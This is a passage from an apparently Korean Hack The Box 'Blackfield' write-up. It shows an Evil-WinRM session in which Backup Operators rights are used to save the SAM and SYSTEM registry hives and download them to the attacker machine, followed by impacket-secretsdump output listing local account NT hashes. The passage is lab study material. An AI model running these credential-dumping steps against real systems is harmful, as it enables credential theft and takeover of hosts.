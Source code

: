 <img src='assets/post/2025/Playground/Hack The Box/Blackfield/5.png' width=1200 alt=''>


- [2]  `Backup Operators` 멤버 권한을 사용하여 `SAM, SYSTETM` 파일 저장 후 공격자 호스트로 다운로드 한다.  

```zsh
*Evil-WinRM* PS C:\Users\svc_backup\Documents> reg save hklm\system C:\Windows\Tasks\SYSTEM
The operation completed successfully.

*Evil-WinRM* PS C:\Users\svc_backup\Documents> reg save hklm\SAM C:\Windows\Tasks\SAM
The operation completed successfully.

[ . . . ]

*Evil-WinRM* PS C:\Users\svc_backup\Documents> cd C:\Windows\Tasks
*Evil-WinRM* PS C:\Windows\Tasks> download SAM
                                        
Info: Downloading C:\Windows\Tasks\SAM to SAM
                                        
Info: Download successful!
*Evil-WinRM* PS C:\Windows\Tasks> download SYSTEM
                                        
Info: Downloading C:\Windows\Tasks\SYSTEM to SYSTEM

Info: Download successful!
```

- [3] SAM SYSTEM 파일을 통해 로컬 관리자(Administrator)의 NT HASH 확인하였으나, 원격 접속 불가했다.  

```zsh
└─# impacket-secretsdump -sam SAM -system SYSTEM LOCAL    
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x73d83e56de8961ca9f243e1a49638393
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:67ef902eae0d740df6257f273de75051:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Cleaning up...
```

---